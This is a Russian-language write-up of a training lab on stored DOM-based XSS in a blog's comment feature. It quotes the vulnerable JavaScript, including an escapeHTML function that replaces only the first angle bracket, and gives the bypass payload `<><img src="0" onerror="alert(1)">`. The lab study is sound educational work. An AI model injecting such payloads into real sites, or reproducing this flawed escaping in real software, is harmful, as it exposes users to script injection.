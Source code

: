 Эта лаборатория демонстрирует сохраненную уязвимость DOM в функциональности комментария в блоге. Чтобы решить эту лабораторию, используйте эту уязвимость, чтобы вызвать `alert()` функция

## Дано

сохраненную уязвимость DOM
в функциональности комментария в блоге

## Задача

вызвать `alert()` функция


# Решение

- `<script>loadComments('/post/comment')</script>`
```
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

//экранирует символы <> в html
function escapeHTML(html) {
	return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

- метод `replace` работает по замене только 1 совпадения из всего контекста в ином случае надо использовать флаг
![[Pasted image 20250130145304.png]]


- `<><img src="0" onerror="alert(1)">` - 1 заголовок экранируется а последующие нет 

## Итог

Не совсем верно иметь такую защиту так как данные должны очищаться до момента
![[Pasted image 20250130150227.png]]
Из за ответа видим что возвращается Json c символами html и после уже полагаются на код функцию `replace` чтоб отобразить его в dom